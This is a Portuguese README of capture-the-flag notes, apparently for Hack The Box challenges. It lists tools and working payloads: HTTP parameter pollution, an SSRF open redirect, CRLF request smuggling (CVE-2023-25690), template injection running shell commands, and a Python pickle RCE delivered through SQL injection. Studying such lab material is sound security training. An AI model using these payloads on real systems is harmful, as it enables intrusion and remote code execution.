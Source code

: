 <h1 align="center">Dicas e usos de ferramentas</h1>
<h3 align="center">Técnicas, Vulnerabilidades e Ferramentas que usei para referências em desafios futuros</h3>


### Eternal Loop:
- fcrackzip

### Photon Lockdown:
- unsquashfs

### 0xBOverchunked:
- sqlmap

### HTBank:
- HTTP Parameter Polution (HPP):
    ```
    curl --location 'http://94.237.55.42:33198/api/withdraw' \
    --form 'account="0"' \
    --form 'amount="0"' \ # Precisa ser zero para o payload passar
    --form 'amount="1337"' #
    ```

### Saturn:
- SSRF (Server Side Request Forgery)

### ProxyAsAService:
- Open Redirect Attack
    ```
    http://94.237.60.170:33195/?url=@0.0.0.0:1337/debug/environment
    ```

### ApacheBlaze:
- HTTP Request Smuggling Attack (CVE-2023–25690)
    ```
    http://94.237.48.205:56566/api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/
    ```
    https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection

### RenderQuest:
- https://webhook.site/ -> Injection content {{.FetchServerInfo "cat /flag*"}} 

### C.O.P:
- Pickle Remote Code Execution
    ```
    import pickle
    import base64
    import os

    payload = 'cp flag.txt application/static/.' # Payload

    class RCE:
        def __reduce__(self):
            return os.system, (payload,)

    if __name__ == '__main__':
        print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
    ```
    ```
    Injetar payload:
    
    GET http://94.237.49.121:31295/view/' UNION SELECT 'gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg==
    ```

    Recuperar flag:
    ```
    GET http://94.237.49.121:31295/static/flag.txt
    ```

### EasterBunny: